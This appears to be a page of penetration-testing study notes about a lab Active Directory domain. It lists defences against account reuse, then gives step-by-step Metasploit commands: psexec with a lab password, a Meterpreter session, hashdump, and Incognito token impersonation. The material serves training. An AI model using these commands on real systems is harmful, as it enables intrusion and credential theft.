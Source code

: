 #

You can limit account re-use:
* Avoid re-using local admin password
* Disable guest and administrator accounts
* Limit who is the local administrator (least-privilege)
Use strong passwords:
* greater than 14 characters
*  common words
Privilege Access Management (PAM):
* Check out/in sensitive accounts when needed
* Automatically rotate passwords on check out and check in


#

<p align="center">
  <body>
  Token Impersonation (Incognito) Attack
  </body>
</p>

#


Tokens give you temporary access just like cookies. 
Two types:
Delegate tokens are used when you login to a machine or use remote desktop. 
Impersonate tokens are used when there is a network drive attached or domain logon script

#

We run metasploit using ‘msfconsole’.
Configure the payload using ‘use exploit/windows/smb/psexec’.
Set rhosts to the target using ‘set rhosts <ip>’.
Set smbdomain using ‘set smbdomain marvel.local’.
Set smbpass using ‘set smbpass Password1’.
Set smbuser using ‘set smbuser fcastle’.
Use ‘show targets’ and set target to native upload using ‘set target 2’.
Set lhost using ‘set lhost eth0’.
Using ‘options’:

![alt text](https://cdn.discordapp.com/attachments/750764502181740564/1265772246123679805/image.png?ex=66a36284&is=66a21104&hm=011dca106d79fd99339881f93e3deeedf4023fbe766594fa7042a1e870e9dfbb&)

Then use ‘run’ to start the session.

![alt text](https://cdn.discordapp.com/attachments/750764502181740564/1265782333651550208/image.png?ex=66a36be9&is=66a21a69&hm=63402f3fc4732aafcb7afd58b0854a48f8623eb4acd8f1daae9c01acfe23ced2&)


We can use ‘hashdump’ to see the hashes.
Use commands like ‘getuid’ and ‘sysinfo’ to see information about the user.
Use ‘load -l’ to see a list of tools.


We’ll use incognito by doing ‘load incognito’. Use ‘help’ for list of commands.

List tokens by usernames using ‘list_tokens -u’.
Then impersonate a token by using ‘impersonate_token marvel\\fcastle’.
